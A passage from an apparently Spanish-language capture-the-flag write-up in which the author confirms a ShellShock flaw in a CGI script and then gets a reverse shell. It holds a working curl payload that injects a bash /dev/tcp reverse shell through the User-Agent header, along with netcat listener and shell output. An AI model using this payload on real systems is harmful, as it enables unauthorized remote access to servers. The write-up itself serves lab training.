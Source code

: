 Observa la respuesta que obtuvimos:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
16:12:32.811255 IP 192.168.1.200 > Tu_IP: ICMP echo request, id 1, seq 0, length 64
16:12:32.811275 IP 192.Tu_IP > 192.168.1.200: ICMP echo reply, id 1, seq 0, length 64
16:12:32.814288 IP 192.168.1.200 > TU_IP: ICMP echo request, id 1, seq 256, length 64
16:12:32.814300 IP 192.Tu_IP > 192.168.1.200: ICMP echo reply, id 1, seq 256, length 64
```
Muy bien, ya está más que comprobada que esta vulnerabilidad existe dentro de la página web.

<br>

<h2 id="shellshock2">Obteniendo una Reverse Shell Aplicando Ataque ShellShock</h2>

Primero, vamos a abrir una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```
Como ya probamos que podemos enviar una **traza ICMP** de la máquina víctima a la nuestra desde la página web, podemos probar enviando una **Reverse Shell** y así poder conectarnos.

Probemos:
```bash
curl -H 'User-Agent: () { :; }; echo; /bin/bash -c "bash -i >& /dev/tcp/Tu_IP/443 0>&1"' http://192.168.1.200:8080/cgi-bin/agua.cgi
```

Revisa la **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.1.200] 48922
bash: no job control in this shell
www-data@10a5dfb83efd:/usr/lib/cgi-bin$ whoami
whoami
www-data
```
Estamos dentro.

Parece ser que es un contenedor, por lo que aún no podremos obtener la flag del usuario:
```bash
www-data@7159efa19ddb:/usr/lib/cgi-bin$ ifconfig
ifconfig
bash: ifconfig: command not found
www-data@7159efa19ddb:/usr/lib/cgi-bin$ ip a
ip a
bash: ip: command not found
```

<br>

<h2 id="shellshock3">Aplicando ShellShock con Metasploit Framework</h2>

Existen un par de módulos que podemos utilizar para aplicar el **ataque ShellShock**.
